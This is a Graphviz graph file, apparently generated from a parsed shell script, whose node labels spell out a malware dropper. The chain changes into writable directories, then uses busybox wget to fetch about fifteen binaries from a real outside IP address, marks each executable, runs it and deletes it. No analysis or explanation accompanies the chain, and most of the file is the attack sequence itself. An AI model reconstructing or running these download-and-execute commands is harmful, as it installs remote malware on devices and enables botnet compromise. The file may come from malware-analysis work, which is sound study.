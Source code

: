 digraph {
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 10 [label="||,"];
10 [label="/bin/busybox wget http://91.219.31.17/rwfwff "];
10 -> 12 [label=";,"];
12 [label="wget http://91.219.31.17/rwfwff "];
12 -> 14 [label=";,"];
14 [label="chmod +x rwfwff "];
14 -> 16 [label=";,"];
16 [label="./rwfwff "];
16 -> 18 [label=";,"];
18 [label="rm -rf rwfwff "];
18 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 30 [label="||,"];
30 [label="/bin/busybox wget http://91.219.31.17/fwcwcc "];
30 -> 32 [label=";,"];
32 [label="wget http://91.219.31.17/fwcwcc "];
32 -> 34 [label=";,"];
34 [label="chmod +x fwcwcc "];
34 -> 36 [label=";,"];
36 [label="./fwcwcc "];
36 -> 38 [label=";,"];
38 [label="rm -rf fwcwcc "];
38 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 50 [label="||,"];
50 [label="/bin/busybox wget http://91.219.31.17/werfew "];
50 -> 52 [label=";,"];
52 [label="wget http://91.219.31.17/werfew "];
52 -> 54 [label=";,"];
54 [label="chmod +x werfew "];
54 -> 56 [label=";,"];
56 [label="./werfew "];
56 -> 58 [label=";,"];
58 [label="rm -rf werfew "];
58 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 70 [label="||,"];
70 [label="/bin/busybox wget http://91.219.31.17/tdgeew "];
70 -> 72 [label=";,"];
72 [label="wget http://91.219.31.17/tdgeew "];
72 -> 74 [label=";,"];
74 [label="chmod +x tdgeew "];
74 -> 76 [label=";,"];
76 [label="./tdgeew "];
76 -> 78 [label=";,"];
78 [label="rm -rf tdgeew "];
78 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 90 [label="||,"];
90 [label="/bin/busybox wget http://91.219.31.17/ceewfw "];
90 -> 92 [label=";,"];
92 [label="wget http://91.219.31.17/ceewfw "];
92 -> 94 [label=";,"];
94 [label="chmod +x ceewfw "];
94 -> 96 [label=";,"];
96 [label="./ceewfw "];
96 -> 98 [label=";,"];
98 [label="rm -rf ceewfw "];
98 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 110 [label="||,"];
110 [label="/bin/busybox wget http://91.219.31.17/ffweef "];
110 -> 112 [label=";,"];
112 [label="wget http://91.219.31.17/ffweef "];
112 -> 114 [label=";,"];
114 [label="chmod +x ffweef "];
114 -> 116 [label=";,"];
116 [label="./ffweef "];
116 -> 118 [label=";,"];
118 [label="rm -rf ffweef "];
118 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 130 [label="||,"];
130 [label="/bin/busybox wget http://91.219.31.17/kfowef "];
130 -> 132 [label=";,"];
132 [label="wget http://91.219.31.17/kfowef "];
132 -> 134 [label=";,"];
134 [label="chmod +x kfowef "];
134 -> 136 [label=";,"];
136 [label="./kfowef "];
136 -> 138 [label=";,"];
138 [label="rm -rf kfowef "];
138 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 150 [label="||,"];
150 [label="/bin/busybox wget http://91.219.31.17/dwqdqq "];
150 -> 152 [label=";,"];
152 [label="wget http://91.219.31.17/dwqdqq "];
152 -> 154 [label=";,"];
154 [label="chmod +x dwqdqq "];
154 -> 156 [label=";,"];
156 [label="./dwqdqq "];
156 -> 158 [label=";,"];
158 [label="rm -rf dwqdqq "];
158 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 170 [label="||,"];
170 [label="/bin/busybox wget http://91.219.31.17/woewec "];
170 -> 172 [label=";,"];
172 [label="wget http://91.219.31.17/woewec "];
172 -> 174 [label=";,"];
174 [label="chmod +x woewec "];
174 -> 176 [label=";,"];
176 [label="./woewec "];
176 -> 178 [label=";,"];
178 [label="rm -rf woewec "];
178 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 190 [label="||,"];
190 [label="/bin/busybox wget http://91.219.31.17/weflff "];
190 -> 192 [label=";,"];
192 [label="wget http://91.219.31.17/weflff "];
192 -> 194 [label=";,"];
194 [label="chmod +x weflff "];
194 -> 196 [label=";,"];
196 [label="./weflff "];
196 -> 198 [label=";,"];
198 [label="rm -rf weflff "];
198 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 210 [label="||,"];
210 [label="/bin/busybox wget http://91.219.31.17/wweccc "];
210 -> 212 [label=";,"];
212 [label="wget http://91.219.31.17/wweccc "];
212 -> 214 [label=";,"];
214 [label="chmod +x wweccc "];
214 -> 216 [label=";,"];
216 [label="./wweccc "];
216 -> 218 [label=";,"];
218 [label="rm -rf wweccc "];
218 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 230 [label="||,"];
230 [label="/bin/busybox wget http://91.219.31.17/kfcedd "];
230 -> 232 [label=";,"];
232 [label="wget http://91.219.31.17/kfcedd "];
232 -> 234 [label=";,"];
234 [label="chmod +x kfcedd "];
234 -> 236 [label=";,"];
236 [label="./kfcedd "];
236 -> 238 [label=";,"];
238 [label="rm -rf kfcedd "];
238 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 250 [label="||,"];
250 [label="/bin/busybox wget http://91.219.31.17/cocain "];
250 -> 252 [label=";,"];
252 [label="wget http://91.219.31.17/cocain "];
252 -> 254 [label=";,"];
254 [label="chmod +x cocain "];
254 -> 256 [label=";,"];
256 [label="./cocain "];
256 -> 258 [label=";,"];
258 [label="rm -rf cocain "];
258 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 270 [label="||,"];
270 [label="/bin/busybox wget http://91.219.31.17/analsx "];
270 -> 272 [label=";,"];
272 [label="wget http://91.219.31.17/analsx "];
272 -> 274 [label=";,"];
274 [label="chmod +x analsx "];
274 -> 276 [label=";,"];
276 [label="./analsx "];
276 -> 278 [label=";,"];
278 [label="rm -rf analsx "];
278 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 290 [label="||,"];
290 [label="/bin/busybox wget http://91.219.31.17/suckas "];
290 -> 292 [label=";,"];
292 [label="wget http://91.219.31.17/suckas "];
292 -> 294 [label=";,"];
294 [label="chmod +x suckas "];
294 -> 296 [label=";,"];
296 [label="./suckas "];
296 -> 298 [label=";,"];
298 [label="rm -rf suckas "];
298 -> 300 [label=";,"];
300 [label="cd /tmp "];
300 -> 300
302 [label="cd /var/run "];
302 -> 304 [label="||,"];
304 [label="cd /mnt "];
304 -> 306 [label="||,"];
306 [label="cd /root "];
306 -> 308 [label="||,"];
308 [label="cd / "];
308 -> 310 [label="||,"];
310 [label="/bin/busybox wget http://91.219.31.17/edcecc "];
310 -> 312 [label=";,"];
312 [label="wget http://91.219.31.17/edcecc "];
312 -> 314 [label=";,"];
314 [label="chmod +x edcecc "];
314 -> 316 [label=";,"];
316 [label="./edcecc "];
316 -> 317 [label=";,"];
}

